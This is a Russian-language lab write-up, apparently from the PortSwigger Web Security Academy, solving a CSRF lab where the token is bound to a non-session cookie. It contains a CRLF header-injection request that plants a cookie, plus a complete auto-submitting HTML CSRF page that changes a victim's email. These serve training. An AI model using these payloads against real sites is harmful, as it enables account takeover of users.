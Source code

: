 Функция изменения электронной почты этой лаборатории уязвима для CSRF. Он использует токены, чтобы попытаться предотвратить атаки CSRF, но они не полностью интегрированы в систему обработки сеансов сайта.

## Дано

Учётки
- `wiener:peter`
- `carlos:montoya`

## Задача

Создать HTML-страницу, которая использует атаку CSRF для изменения адреса электронной почты зрителя

# Разведка

При смене почты видим csrfkey к cookie и csrf при смене пароля
```
Cookie: session=91Fl3EVdjX0ph2pnDhZRYyfrFUlufd1U; csrfKey=0wKQuTO16vGecEKawfnScGxJheVIbkt0

csrf=jc6wuOoITzV5Rwb6oBeYq2Mu8Lbat6xr
```

Методика тестирования csrf токенов
- Проверить связаны ли токены между собой (СВЯЗАНЫ)
- Проверить подмену csrf токенов с другой учётки (СВЯЗАН)
	Другая учётка csrf FvwBytwcoVfzbJRfVertWJxpE8fVc2QI
- - Проверить связан ли токен csrfkey c csrf без cookie чужой учётки 
	csrfkey CaCIBwEBIOn7R5mb78ES4Sz9BcBoKjGQ **(БИНГО)**

- csrfkey и csrf связаны между собой но не с cookie тем самым поимев их мы можем сменить данные почты

СИСТЕМА ОБРАБОТКИ СЕАНСОВ И МЕХАНИЗМЫ ЗАЩИТЫ НЕ СВЯЗАНЫ
# Атака

- Для атаки нам нужно внедрить в http cookie (csrfkey) и наш cookie сессию
- Затем провести атаку на csrf токен для изменения почты (его получить можно ток при нажатие изменить почту)

Задача заключается объединить атаку на csrfkey с csrf 
1. Найти уязвимость внедрения http заголовка (уязвимость возникает когда страница генерируется динамически)

```
GET /?search=home HTTP/2
Host: 0adf00d6042b40ce800935d7000e008f.web-security-academy.net
Cookie: session=lX3R7Etm8yfs3pDsVWZOHt9jCsRHfEh2; csrfKey=qJ4Oejb7Bm7U9DizmjsO5j8jUqvpxLdq; LastSearchTerm=??????
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0adf00d6042b40ce800935d7000e008f.web-security-academy.net/?search=%D0%B4%D0%BE%D0%BC
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
```
При поиске запрос есть ответ
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=home; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 6073
```
Set-Cookie: LastSearchTerm=home; - уязвима

Формируем запрос
```
GET /?search=home%0d%0aSet-Cookie:%20csrfKey=ZWo4s3kDZOkgCaWgYDjgh2SB3XnrpWOL HTTP/2
```
Получаем ответ
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=home
Set-Cookie: csrfKey=ZWo4s3kDZOkgCaWgYDjgh2SB3XnrpWOL; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3474
```


## Формируем атаку
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0adf00d6042b40ce800935d7000e008f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test100&#64;mail&#46;ru" />
      <input type="hidden" name="csrf" value="FvwBytwcoVfzbJRfVertWJxpE8fVc2QI" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0adf00d6042b40ce800935d7000e008f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=CaCIBwEBIOn7R5mb78ES4Sz9BcBoKjGQ%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
Здесь мы вставили свой csrf ключ к изменению почты а так же изображение которое изменяет csrkey токен на наш после чего сервер считает новый токен жертвы и обрабатывается ошибка по условию картинки и мы получаем данные для входа cookie csrf 